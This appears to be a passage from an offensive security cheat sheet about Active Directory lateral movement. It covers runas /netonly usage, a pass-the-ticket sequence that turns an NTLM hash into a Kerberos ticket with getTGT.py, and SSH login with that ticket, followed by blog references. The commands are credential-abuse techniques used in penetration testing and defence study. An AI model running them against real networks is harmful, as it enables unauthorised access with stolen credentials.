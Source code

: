 ```powershell
PS C:\> runas /netonly /user:DOMAIN\username "cmd.exe"
PS C:\> runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## Pass the Ticket

```powershell
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user
[*] Saving ticket in user.ccache
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

## SSH

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)

[DC01]: PS>